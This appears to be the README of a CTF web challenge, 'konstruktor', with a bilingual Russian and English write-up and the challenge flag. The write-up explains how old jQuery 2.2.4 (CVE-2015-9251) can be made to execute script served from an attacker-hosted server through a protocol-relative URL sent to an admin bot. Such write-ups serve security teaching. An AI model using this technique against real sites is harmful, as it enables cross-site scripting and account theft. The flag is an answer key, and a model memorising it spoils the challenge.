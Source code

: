 # web | konstruktor

## Information

Мы сделали прикольный-конструктор объявлений для нашего бара.

We created a fancy constructor for our bar board.

## Deploy

```sh
cd deploy
docker compose -p konstrukt up --build -d
```

## Public

Provide archive: [public/konstruktor.tar.gz](public/konstruktor.tar.gz).

## TLDR

CVE-2015-9251

## Writeup (ru)

Задача представляет собой простое приложение, которое позволяет сохранить json с markdown'ом и позже получить его обратно.

При этом логика приложение написана на клиентской части, на любой обработчик кроме .php и .json мы возвращаем index.html.

Данная страница на /path запросит файл /path.json с сервера через `window.location.pathname`.

Важно обратить внимание что версия jquery(jquery-2.2.4) очень старая. И на нее есть несколько публичных CVE.

Нам интересен CVE-2015-9251, который исполняет ответ функции .ajax() на нашем origin, если ответ будет `text/javascript`.

У нас нет возможности загрузить javascript файл на сервер, но мы можем загрузить его на свой сервер. 

Единственная проблема — как заставить сервер получить наш файл ? Здесь поможет [Protocol-relative URLs](https://en.wikipedia.org/wiki/URL#prurl). 

Решение: 
1. Поднять свой сервер, который отдает XSS payload с нужными заголовками.
2. Отправить в бота `//<your_server>/pld`




## Writeup (en)
Task is a simple application that allows you to save json with markdown's and get it back later.

Application logic is implemented on the client side. Any handler other than .php and .json returns index.html file. This file on /path will request the /path.json file from the server via `window.location.pathname`.

It is important to note that the version of jquery(jquery-2.2.4) is very old. And there are several public CVEs for it.

We are interested in CVE-2015-9251, which executes the .ajax() function response on our origin if the response is `text/javascript`.

We don't have the ability to upload the javascript file to the server, but we can upload it to our server. 

The only problem is how to make the server get our file ? This is where [Protocol-relative URLs](https://en.wikipedia.org/wiki/URL#prurl) will help. 

Solution: 
1. Host your server that gives XSS payload with the right headers.
2. Send `//<your_server>/pld` to the bot.

[Payload](solve/run.sh)


## Cloudflare 

Yes (need to test)

## Flag
ctfcup{caff8735209fa9daca7437c06e39a6c7a196c21c8d9ede1fa4aa08b1c71f139a}

